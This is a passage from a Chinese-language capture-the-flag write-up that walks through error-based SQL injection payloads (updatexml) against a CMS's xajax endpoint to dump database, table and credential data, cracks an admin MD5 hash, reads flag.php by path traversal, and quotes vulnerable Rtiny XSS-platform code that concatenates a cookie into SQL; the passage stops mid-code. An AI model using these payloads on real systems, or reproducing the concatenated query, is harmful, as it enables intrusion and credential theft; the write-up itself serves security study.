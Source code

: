 ```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(concat(database())) ),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

得到数据库名 `Yeser`。

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

这里由于长度无法显示所有表，可以修改 `1,32` 的 `1` 来查看后续表，我们需要的是 `yesercms_user`。

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select group_concat(column_name) from information_schema.columns where table_name='yesercms_user'),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

这里也会有许多列，我们需要的是 `username` 和 `password`。

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(updatexml(1,concat(0x7e,mid((select concat(username,password) from yesercms_user),1,32),0x7e),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

这里的 password 显示不全，同样修改 `1,32` 的 `1` 来查看完整的 MD5 值：`ff512d4240cbbdeafada404677ccbe61`。解密得到密码：`Yeser231`。登录并进入后台管理页面。

管理页面内容很多，但是都没有什么注入点。最终，在 `模板`->`当前模板编辑` 中发现，编辑模板时会先读取相应的文件。因此我们任选一个文件，点击 `编辑` 并抓包，将唯一的参数 `id` 修改为想读取的文件。经测试，这里应该是 `../../flag.php`。

## XSS 平台

尝试注入无果，构造非法参数 `pass=bbb&email[]=aaa` 得到报错信息，其中有一行：

```
File "/var/www/html/rtiny/login.py", line 20, in post
```

结合题目名，得知这是使用 RTiny 编写的 XSS 平台，项目地址在 [这里](https://github.com/r0ker/Rtiny-xss)。其中，`rtiny/lock.py` 存在 SQL 注入漏洞，`post` 方法中对 `username` 没有任何过滤：

```py
#!/usr/bin/env python
# -*- coding:utf-8 -*-

__author__ = 'r0ker'
import tornado.web
from function import md5
import db
from config import URL


class LockHandler(tornado.web.RequestHandler):
    def get(self):
        self.set_secure_cookie("lock",'1')
        self.render("lock.html")

    def post(self):
        username = self.get_secure_cookie("username") or ''
        passwd = md5(self.get_argument('password',''))
        row = db.ct("manager", "*", "username='"+ username +"'and password='"+ passwd +"'")
        if row:
            self.set_secure_cookie("lock", "0")
            self.redirect("http://" + URL)
        else:
```